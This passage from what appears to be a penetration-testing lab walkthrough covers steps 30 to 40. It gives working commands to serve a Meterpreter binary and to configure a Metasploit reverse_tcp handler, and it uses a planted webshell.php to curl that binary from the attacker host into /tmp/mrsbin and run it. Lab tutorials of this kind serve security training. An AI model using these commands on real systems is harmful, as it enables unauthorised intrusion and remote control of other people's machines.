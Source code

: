 30. Now stage a simple web server here on port `8000` to serve this file:

    ```shell
    python3 -m http.server 8000
    ```

31. Let's set up a Metasploit console that can receive an inbound connection from this meterpreter. Start up a new terminal tab by hitting `Ctrl-Shift-t`.

32. Start up a Metasploit console:

    ```shell
    msfconsole
    ```

33. Set up a multi/handler to catch the shell.  Start by specifying `exploit/multi/handler`:

    ```shell
    use exploit/multi/handler
    ```

34. Set the handler to catch the corresponding payload to the one we specified in our `msfvenom` line:

    ```shell
    set payload linux/x86/meterpreter/reverse_tcp
    ```

35. Set the receiving host to `10.23.58.30`:

    ```shell
    set LHOST 10.23.58.30
    ```

36. Set `ExitOnSession` to `false`, so the handler can catch multiple incoming reverse shell connections:

    ```shell
    set ExitOnSession false
    ```

37. Now start the handler as a background job:

    ```shell
    exploit -j
    ```

38. Go back to your browser, where you have that `webshell.php` form and enter the following into the command text box - this tells the receiving system to download a Meterpreter binary from your web server on port `8000` and place it into `/tmp/mrsbin`:

    ```shell
    curl -o /tmp/mrsbin http://10.23.58.30:8000/mrsbin
    ```

39. Click the "Execute" button.

40. Now enter a new command in the browser `webshell.php` form's text box - this one tells the receiving system to make the Meterpreter binary at `/tmp/mrsbin` executable and to run it.
